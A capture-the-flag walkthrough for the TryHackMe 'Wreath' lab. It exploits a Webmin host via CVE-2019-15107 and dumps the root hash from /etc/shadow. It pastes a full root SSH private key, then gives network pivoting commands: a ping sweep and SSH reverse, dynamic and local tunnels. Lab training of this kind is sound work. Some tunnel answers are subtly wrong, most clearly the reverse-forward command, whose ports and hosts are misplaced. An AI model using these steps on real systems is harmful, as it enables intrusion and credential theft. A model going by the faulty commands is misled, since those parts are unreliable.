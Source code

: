 ```yaml
---
description: https://tryhackme.com/r/room/wreath
---
```


# 🔧 Wreath

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After some enumeration on the system, i found that the server version was Miniserv 1.890 Webmin httpd, and there was an known CVE: CVE-2019-15107

```
./CVE-2019-15107.py 10.200.84.200
```

<figure><img src="../../.gitbook/assets/image (695).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (696).png" alt=""><figcaption></figcaption></figure>

so we're in as root, we can go and look at the hashes in /etc/shadow:

root hash:

```
$6$i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1
```

We are not able to crack the hash, but we remember we have ssh enabled, let's try to find an RSA key ->

in `/root/.ssh/id_rsa` you find a private key, copy paste it on your local machine ->

<figure><img src="../../.gitbook/assets/image (697).png" alt=""><figcaption></figcaption></figure>

and connect via the key:&#x20;

```
ssh root@thomaswreath.thm -i sshkeywreath
```

<figure><img src="../../.gitbook/assets/image (698).png" alt=""><figcaption></figcaption></figure>

I'll put the ssh key here if the session is terminated:

```
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```

### Pivoting

Pivoting is the art of using access obtained over one machine to exploit another machine deeper in the network.

#### Pivoting enumeration:&#x20;

```
arp -a
```

this will show you any IP addresses of hosts that the target has interacted with recently.

static mappings may be found in `/etc/hosts` on Linux, or `C:\Windows\System32\drivers\etc\hosts` on Windows. `/etc/resolv.conf` on Linux may also identify any local DNS servers,

Linux has an equivalent command as an alternative to reading the resolv.conf file: `nmcli dev show`

statically compiled copies of Nmap for different operating systems (along with various other tools) can be found in various places on the internet. A good (if dated) resource for these can be found [here](https://github.com/andrew-d/static-binaries).

_Note: The difference between a "static" binary and a "dynamic" binary is in the compilation. Most programs use a variety of external libraries (_`.so` _files on Linux, or_ `.dll` _files on Windows) -- these are referred to as "dynamic" programs. Static programs are compiled with these libraries built into the finished executable file._

***

If Nmap is not installed on the currently compromised server, the following Bash one-liner would perform a full ping sweep of the 192.168.1.x network:

```
for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done
```

_**If you wanted to set up a reverse portforward from port 22 of a remote machine (172.16.0.100) to port 2222 of your local machine (172.16.0.200), using a keyfile called**** ****`id_rsa`**** ****and backgrounding the shell, what command would you use? (Assume your username is "kali")**_

```
ssh -R  22:172.16.0.100 kali@172.16.0.100:2222 -i id_rsa -fN
```

_**What command would you use to set up a forward proxy on port 8000 to user@target.thm, backgrounding the shell?**_

```
ssh -D 8000 user@target.thm -fN
```

_**If you had SSH access to a server (172.16.0.50) with a webserver running internally on port 80 (i.e. only accessible to the server itself on 127.0.0.1:80), how would you forward it to port 8000 on your attacking machine? Assume the username is "user", and background the shell.**_

```
ssh -L 8000:172.16.0.50:80 user@127.0.0.1 -fN
```

